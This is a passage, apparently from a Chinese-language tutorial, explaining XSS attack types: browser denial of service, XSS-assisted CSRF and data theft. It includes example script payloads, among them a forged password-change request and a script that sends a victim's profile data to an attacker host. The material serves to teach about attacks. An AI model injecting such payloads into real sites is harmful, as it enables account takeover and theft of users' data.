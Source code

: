 **说明**：
用户可能会误以为这是一个正常的按钮，点击后被重定向到攻击者的网站，执行恶意操作。

### 4. **拒绝服务攻击（DoS）**

**描述**：
攻击者通过 XSS 漏洞注入恶意脚本，执行资源密集型操作，如无限循环、内存泄漏等，导致目标网站或用户的浏览器崩溃。

**示例**：
```html
<script>
  // 无限循环导致浏览器崩溃
  while (true) {
    // 空循环
  }
</script>
```

**说明**：
这种攻击会导致用户的浏览器无响应，甚至崩溃，影响用户体验。

### 5. **跨站请求伪造（CSRF）**

**描述**：
虽然 XSS 和 CSRF 是不同的攻击类型，但 XSS 可以用来增强 CSRF 攻击的效果。通过 XSS 注入脚本，攻击者可以在用户不知情的情况下，发送伪造的请求。

**示例**：
```html
<script>
  // 发送一个伪造的 POST 请求
  fetch('https://target.com/change-password', {
    method: 'POST',
    headers: {
      'Content-Type': 'application/json'
    },
    body: JSON.stringify({password: 'newpassword'})
  });
</script>
```

**说明**：
用户可能在不知情的情况下，密码被更改，导致账户被攻击者控制。

### 6. **数据窃取**

**描述**：
攻击者通过 XSS 注入脚本，窃取用户在目标网站上的其他敏感数据，如个人资料、支付信息等。

**示例**：
```html
<script>
  // 窃取用户的个人资料
  fetch('https://target.com/api/profile', {
    credentials: 'include'
  })
  .then(response => response.json())
  .then(data => {
    // 将数据发送到攻击者的服务器
    fetch('https://attacker.com/steal', {
      method: 'POST',
      headers: {
        'Content-Type': 'application/json'
      },
      body: JSON.stringify(data)
    });
  });
</script>
```